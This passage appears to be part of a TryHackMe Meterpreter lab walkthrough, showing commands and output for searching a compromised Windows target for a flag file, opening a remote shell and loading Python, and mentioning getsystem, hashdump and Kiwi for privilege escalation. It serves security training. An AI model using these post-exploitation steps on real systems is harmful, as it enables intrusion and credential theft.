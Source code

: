 #### The search command
```
meterpreter > search -f flag2.txt
```
```
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >
```

### Shell
---

The ```shell``` command will launch a regular command-line shell on the target system. Pressing ```CTRL+Z``` will help you go back to the Meterpreter shell.

#### The shell command
```
meterpreter > shell
```
```
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

Task 5  Post-Exploitation Challenge
---
Meterpreter provides several important post-exploitation tools.

Commands mentioned previously, such as ```getsystem``` and ```hashdump``` will provide important leverage and information for privilege escalation and lateral movement. Meterpreter is also a good base you can use to ```run post-exploitation``` modules available on the Metasploit framework. Finally, you can also use the ```load ```command to leverage additional tools such as ```Kiwi``` or even the whole Python language.

#### Loading Python
---
```
meterpreter > load python
```
```
Loading extension python...Success.
meterpreter > python_execute "print 'TryHackMe Rocks!'"
[+] Content written to stdout:
TryHackMe Rocks!

meterpreter >
```

The post-exploitation phase will have several goals; Meterpreter has functions that can assist all of them.
